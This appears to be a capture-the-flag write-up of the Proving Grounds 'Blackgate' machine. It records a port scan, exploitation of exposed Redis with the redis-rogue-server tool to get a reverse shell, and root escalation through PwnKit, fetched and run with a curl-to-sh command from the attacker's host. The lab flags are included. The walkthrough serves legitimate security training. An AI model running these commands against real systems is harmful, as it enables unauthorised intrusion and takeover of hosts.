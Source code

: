 `---------------------Starting Full Scan------------------------`

`PORT     STATE SERVICE`
`22/tcp   open  ssh`
`6379/tcp open  redis`

`Making a script scan on extra ports: 6379`

![[Pasted image 20240208120437.png]]

The first results are either for a not working MSF exploit or a script that needs a file from a git repository that doesn't exist.
Check out the HackTricks page

This has a link to another PoC
![[Pasted image 20240208120605.png]]

`└─$ git clone https://github.com/n0b0dyCN/redis-rogue-server.git`
`Cloning into 'redis-rogue-server'...`
`remote: Enumerating objects: 87, done.`
`remote: Counting objects: 100% (4/4), done.`
`remote: Compressing objects: 100% (4/4), done.`
`remote: Total 87 (delta 0), reused 1 (delta 0), pack-reused 83`
`Receiving objects: 100% (87/87), 245.56 KiB | 3.41 MiB/s, done.`
`Resolving deltas: 100% (19/19), done.`

`┌──(user㉿kalipurple)-[~/Offsec/ProvingGrounds/Blackgate/2]`
`└─$ cd redis-rogue-server/RedisModulesSDK/exp`
                                                                                                          
`┌──(user㉿kalipurple)-[~/…/2/redis-rogue-server/RedisModulesSDK/exp]`
`└─$ make` 

Make sure it created the .so file
`┌──(user㉿kalipurple)-[~/…/2/redis-rogue-server/RedisModulesSDK/exp]`
`└─$ ls -l`
`total 108`
`-rw-r--r-- 1 user user   757 Feb  8 12:06 Makefile`
`-rw-r--r-- 1 user user  2108 Feb  8 12:06 exp.c`
`-rw-r--r-- 1 user user 52344 Feb  8 12:07 exp.o`
`-rwxr-xr-x 1 user user 47904 Feb  8 12:07 exp.so`

`└─$ ./redis-rogue-server.py --rhost 192.168.190.176 --lhost 192.168.45.235`
`______         _ _      ______                         _____`                          
`| ___ \       | (_)     | ___ \                       /  ___|`                         
`| |_/ /___  __| |_ ___  | |_/ /___   __ _ _   _  ___  \ --.  ___ _ ____   _____ _ __` 
`|    // _ \/ _ | / __| |    // _ \ / _ | | | |/ _ \  --. \/ _ \ '__\ \ / / _ \ '__|`
`| |\ \  __/ (_| | \__ \ | |\ \ (_) | (_| | |_| |  __/ /\__/ /  __/ |   \ V /  __/ |`   
`\_| \_\___|\__,_|_|___/ \_| \_\___/ \__, |\__,_|\___| \____/ \___|_|    \_/ \___|_|`   
                                     `__/ |`                                            
                                    `|___/`                                             
`@copyright n0b0dy @ r3kapig`

`[info] TARGET 192.168.190.176:6379`
`[info] SERVER 192.168.45.235:21000`
`[info] Setting master...`
`[info] Setting dbfilename...`
`[info] Loading module...`
`[info] Temerory cleaning up...`
`What do u want, [i]nteractive shell or [r]everse shell: r`
`[info] Open reverse shell...`
`Reverse server address: 192.168.45.235`
`Reverse server port: 4444`
`[info] Reverse shell payload sent.`
`[info] Check at 192.168.45.235:4444`
`[info] Unload module...`

If the above script gives errors, revert the machine.
Catch and upgrade the reverse shell.

`└─$ nc -nlvp 4444`
`Ncat: Version 7.94SVN ( https://nmap.org/ncat )`
`Ncat: Listening on [::]:4444`
`Ncat: Listening on 0.0.0.0:4444`
`Ncat: Connection from 192.168.190.176:60988.`
`whoami`
`prudence`
`python3 -c 'import pty; pty.spawn("/bin/bash")'`
`prudence@blackgate:`

Grab the local flag
`prudence@blackgate:/tmp$ cat ~/local.txt`
`cat ~/local.txt`
`2fe30ddb954cd0952c2e25cccd8fad09`

Run lse_cve.sh to check for CVEs

`[!] cve-2021-4034 Checking for PwnKit vulnerability........................ yes!`

Get this from https://github.com/ly4k/PwnKit

`sh -c "$(curl -fsSL http://192.168.45.235/PwnKit.sh)"`

`prudence@blackgate:/tmp$ sh -c "$(curl -fsSL http://192.168.45.235/PwnKit.sh)"`
`< -c "$(curl -fsSL http://192.168.45.235/PwnKit.sh)"`
`root@blackgate:/tmp# cat /root/proof.txt`
`cat /root/proof.txt`
`7fc5faa7a476ae8c5d9aa3146c2aaf40`
